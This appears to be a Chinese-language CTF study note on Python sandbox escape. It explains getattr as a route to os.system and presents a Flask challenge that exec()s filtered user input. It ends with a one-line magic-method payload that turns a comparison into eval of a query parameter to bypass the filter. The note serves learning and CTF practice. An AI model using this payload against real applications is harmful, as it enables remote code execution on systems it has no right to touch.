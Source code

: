 # python 沙箱逃逸

在xman个人排位赛的时候第一次见到这种题

## 推荐网站

[https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/](https://www.k0rz3n.com/2018/05/04/Python 沙盒逃逸备忘/)

[https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-沙箱逃逸/)



 https://docs.python.org/zh-cn/3/reference/datamodel.html#object.__init__ 

## 关键函数

### getattr

`getattr`(*object*, *name*[, *default*])

返回对象命名属性的值。*name* 必须是字符串。如果该字符串是对象的属性之一，则返回该属性的值。例如， `getattr(x, 'foobar')` 等同于 `x.foobar`。如果指定的属性不存在，且提供了 *default* 值，则返回它，否则触发 [`AttributeError`](https://docs.python.org/zh-cn/3/library/exceptions.html#AttributeError)。

获得对象属性的值相当于拷贝对象属性的副本，如果这个对象的属性的值是一个函数呢？

fun=getattr(os,'system')则fun()=system()





## 过滤 (或)

利用魔术方法绕过，常见的如:`__eq__,__ne__,__getitem__...`

例如：

```python
from flask import Flask, request
app = Flask(__name__)

@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: 
            print(i)
            return "error!"

    exec(secret)
    return "xXXxXXx"
```



```python
request.args.__class__.__getattr__=request.args.__class__.__getitem__;app.config.__class__.__eq__=eval;app.config==request.args.a;
```

